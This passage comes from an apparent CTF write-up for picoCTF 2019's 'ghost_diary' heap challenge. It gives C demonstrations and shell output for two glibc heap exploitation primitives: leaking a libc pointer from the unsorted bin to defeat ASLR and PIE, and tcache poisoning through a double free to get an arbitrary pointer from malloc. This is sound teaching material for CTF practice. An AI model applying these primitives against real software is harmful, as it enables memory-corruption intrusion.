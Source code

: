 ```c
	malloc(0x80);

	// Free 7 of them to fill up the 0x80 sized tcache bin
	for (int i = 0; i < 7; i++)
	{
		free(chunks[i]);
	}

	// The next free will go into the unsorted bin as the tcache bin is full
	free(chunks[7]);

	// Print out the forward pointer of the last freed chunk by emulating a UAF vulnerability
	// This will point into libc
	printf("0x%lx\n", *chunks[7]);
}
```
```sh
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/picoctf-2019/ghost_diary$ gcc unsortedbin.c
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/picoctf-2019/ghost_diary$ ./a.out
0x7f333f8f6ca0
```

This is very important. If we can somehow read this pointer (using a use-after-free, or overlapped chunks, by any means), then we have an information leak that we can use to find the base address of libc. This defeats both PIE and ASLR in one shot. This characteristic of the unsorted bin is used in the exploit for this challenge.

#### The Tcache Poisoning Attack

Given a double free vulnerability, we can get `malloc` to return an arbitrary pointer which lets us have an arbitrary read/write primitive. It abuses the fact that a double free will cause two of the same chunk to be inserted into the tcache bin, meaning that this chunk will have its `fd` pointer pointing to itself.

This is shown below, as well as utilized in our exploit. Credits to shellphish's [how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/tcache_dup.c) for part of the code:
```c
#include <stdio.h>
#include <stdlib.h>

int *arbitrary_pointer = NULL;

int main()
{
    int *our_pointer = NULL;

    fprintf(stderr, "This file demonstrates a simple double-free attack with tcache.\n\n");
    fprintf(stderr, "We want a chunk on top of the global variable arbitrary_pointer at %p\n\n", &arbitrary_pointer);

    fprintf(stderr, "Allocating buffer.\n");
    int *a = malloc(8);

    fprintf(stderr, "malloc(8): %p\n", a);
    fprintf(stderr, "Freeing twice...\n");
    free(a);
    free(a);

    fprintf(stderr, "Now the free list has [ %p, %p ].\n\n", a, a);

    fprintf(stderr, "Next we allocate one of the chunks\n\n");
    a = malloc(8);

    fprintf(stderr, "Now the free list has [ %p ].\n", a);
    fprintf(stderr, "Now we overwrite a's fd pointer to the address of arbitrary_pointer\n");
```